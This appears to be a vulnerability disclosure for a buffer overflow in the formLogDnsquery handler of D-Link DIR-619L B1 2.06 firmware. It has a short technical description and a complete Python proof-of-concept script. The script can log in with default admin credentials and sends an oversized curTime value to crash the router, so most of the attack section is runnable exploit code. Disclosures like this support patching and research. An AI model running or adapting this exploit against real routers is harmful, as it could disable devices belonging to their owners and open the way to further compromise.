 ## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：https://support.dlink.com/resource/products/DIR-619L/REVB/DIR-619L_REVB_FIRMWARE_PATCH_2.06.B01_WW.ZIP

## Affected version

D-Link DIR-619L B1 2.06

## Vulnerability details

In the D-Link DIR-619L B1 2.06 firmware has a buffer overflow vulnerability in the `formLogDnsquery` function. The `v25` variable receives the `curTime` parameter from a POST request. However, since the user can control the input of `curTime`, the `sprintf` can cause a buffer overflow vulnerability.

![image-20240926124008442](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240926124008442.png)

## POC

```python
import argparse, requests
import sys
import json

if sys.version_info[0] != 3:
    print("Please run the exploit in python3")
    sys.exit(1)

# You can also login with scripts below.
def login():
    login_url = "goform/formLogin"
    url = base_url + "/" + login_url
    print("1. Login: send request to", url)
    login_data = "curTime=1666884522835&FILECODE=a6.jpeg%0D%0A&VERIFICATION_CODE=LSYFZ&login_n=admin&login_pass=YWRtaW4A"
    response = requests.post(url=url, data=login_data, allow_redirects=False)
    print(response.text)


def poc():
    target_url = "goform/formLogDnsquery"
    print("2. get target_url:", target_url)
    url = base_url + "/" + target_url
    print("3. send request to", url)
    
    # Using a dictionary to hold multiple parameters
    data = {
        "curTime": "A" * 2000,  # Adjust the number according to your needs
    }
    
    json_data = json.dumps(data)
    print("request body:", json_data)
    response = requests.post(url=url, json=data, allow_redirects=False)
    print(response.text)


if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Run the exploit')
    parser.add_argument('ip', type=str, default=None, help='The Router IP')
    args = parser.parse_args()

    global base_url
    base_url = "http://{}".format(args.ip)

    # login()
    poc()

```

![image-20240927142954053](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240927142954053.png)
